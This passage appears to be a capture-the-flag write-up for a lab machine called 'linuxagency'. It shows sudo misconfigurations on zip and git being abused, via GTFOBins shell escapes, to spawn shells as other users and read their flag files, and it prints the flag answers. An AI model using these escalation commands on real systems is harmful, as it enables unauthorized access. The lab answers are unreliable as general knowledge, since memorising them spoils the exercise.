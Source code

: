 ```bash

Sudoers entry:
    RunAsUsers: silvio
    Options: !authenticate
    Commands:
	/usr/bin/zip
dalia@linuxagency:~$ TF=$(mktemp -u)
dalia@linuxagency:~$ sudo -u silvio zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 37%)
$ whoami
silvio
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
silvio@linuxagency:/home/dalia$ 
silvio@linuxagency:/home/dalia$ cd ..
silvio@linuxagency:/home$ cd silvio
silvio@linuxagency:~$ ls
examples.desktop  flag.txt
silvio@linuxagency:~$ cat flag.txt
silvio{657b4d058c03ab9988875bc937f9c2ef}
```

<p>GTFObins</p>

![image](https://github.com/user-attachments/assets/68782721-173d-42e4-8de0-d93c2cd6b83c)

![image](https://github.com/user-attachments/assets/d4d657fe-e509-4843-ad21-efb9290fdbb3)

<br>

<p>4.4. What is reza's flag?<br>
<code>reza{2f1901644eda75306f3142d837b80d3e}</code></p>

```bash
silvio@linuxagency:~$ sudo -l
Matching Defaults entries for silvio on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User silvio may run the following commands on linuxagency:
    (reza) SETENV: NOPASSWD: /usr/bin/git
silvio@linuxagency:~$ 
```

<p>GTFObins</p>

![image](https://github.com/user-attachments/assets/336aaf43-e00d-405f-9149-5ebace8dfbb9)

![image](https://github.com/user-attachments/assets/67b55135-ef3e-4fbe-b309-9f67c61b952d)

```bash
silvio@linuxagency:~$ sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
$ whoami
reza
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
reza@linuxagency:/home/silvio$ cd ..
reza@linuxagency:/home$ cd reza
reza@linuxagency:~$ ls
examples.desktop  flag.txt
reza@linuxagency:~$ cat flag.txt
reza{2f1901644eda75306f3142d837b80d3e}
```

